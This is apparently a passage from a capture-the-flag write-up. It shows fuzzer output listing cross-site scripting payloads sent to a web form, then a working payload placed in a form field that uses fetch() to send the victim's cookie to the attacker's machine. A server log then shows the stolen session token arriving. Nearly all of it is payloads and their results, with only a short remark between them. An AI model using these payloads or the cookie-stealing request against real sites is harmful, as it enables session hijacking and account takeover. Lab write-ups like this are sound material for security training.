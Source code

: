 ```console
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 476ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 334ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 1155ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 552ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 272ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 149ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 162ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 2250ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 184ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 911ms]
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 497ms]
:: Progress: [3806/3806] :: Job [1/1] :: 35 req/sec :: Duration: [0:01:20] :: Errors: 0 ::
```

This works:

```http
service=<img+src%3dx+onerror%3dfetch("http%3a//10.10.14.2/"%2bdocument.cookie)%3b>&service=Tile+%26+Grout&service=Office+Cleaning&email=a%40b.c
```

```console
10.10.11.12 - - [29/May/2024 13:19:54] code 404, message File not found
10.10.11.12 - - [29/May/2024 13:19:54] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zld0lQ.UDMDxwOpm9-B6pghpNQmVMc-y-c HTTP/1.1" 404 -
```
